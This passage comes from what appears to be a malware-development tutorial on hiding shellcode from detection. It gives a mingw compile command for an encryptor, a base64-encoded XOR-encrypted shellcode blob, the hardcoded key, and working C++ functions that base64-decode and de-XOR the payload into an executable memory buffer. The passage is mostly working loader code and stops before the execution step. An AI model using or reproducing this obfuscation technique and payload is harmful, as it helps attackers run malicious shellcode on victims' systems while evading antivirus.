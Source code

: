 For correctness, we print original, `XOR`ed and `base64` encoded payload.     

Compile our encryptor:    

```bash
x86_64-w64-mingw32-gcc -O2 enc.c -o enc.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lcrypt32
```

![enc]({{ site.baseurl }}/images/2/2023-03-08_21-00.png)     

![encdemo]({{ site.baseurl }}/images/2/2023-03-08_21-01.png)     

### decode and decrypt

So, for running shellcode, we "reverse" our logic:

Let's say we have `base64` encoded shellcode:    

```cpp
unsigned char meow_payload[] = "kTHykYCajYyNs3JldCo0OD0rIiM4VKAWLeggBUoj7it1Rzv+IkVMO+4RIls8ZNIzJzRCvDhUst9ZAg5nWEskuKR0MnSxh58hJDJMLf85RUfmO089cbVM+OXrcmV0I+C5GRY7dKA1TPgte0wh/ytFMGypkCk4mrtNJOhG7TxqszRcsDtEsMkzsqxuM2S1U4UMnEc/djxBejZcsgezLFUh8i1dOnSgA0wy7m86WzDgJWUkeKNLMe52+y1ioiQsKj0nNCMyLTE8Mykt4J5FNTmamTU4Ki9OLflhjCqNmos2LL6seXN1cFs6/vB5c2V0VSn06FxydXAtQ7ok2TfmImyarNaZbl96JMjV8N7vmqEj5r1FRXUJeuWJkxBmySJnGQoTbSAy/Kqapz4ADAVIGQ4KDkx5TiteSyxOZQ==";
unsigned int meow_len = sizeof(meow_payload);
```

At the first step, we `base64` decode this string to bytes:     

```cpp
int decodeBase64(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {
  DWORD outLen;
  BOOL fRet;

  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);	
  if (!fRet) outLen = 0;  // failed	
  return(outLen);
}

//....

unsigned char exec_mem[my_payload_len];
decodeBase64((const BYTE *)meow_payload, meow_len, (char *) exec_mem, meow_len);
```

at the result, we have a `XOR`ed shellcode. Then, at the next step, we de`XOR` our bytes to get the original shellcode:    

```cpp
// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}
//....

```